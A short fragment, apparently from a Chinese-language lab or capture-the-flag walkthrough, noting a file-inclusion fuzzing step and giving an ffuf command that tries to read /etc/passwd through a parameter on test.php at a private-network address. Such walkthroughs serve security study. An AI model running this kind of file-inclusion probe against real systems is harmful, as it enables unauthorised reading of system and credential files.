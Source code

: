   <img src=".\图片\Snipaste_2022-12-04_16-10-25.png" alt="Snipaste_2022-12-04_16-10-25" style="zoom:80%;" />

--------

- fuzz 大法试试文件包含，工具 `ffuf`

  ```bash
  └─# ffuf -u "http://192.168.2.14/test.php?FUZZ=/etc/passwd" -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 80 -o fuzz.output
  ```

  linux常见文件字典
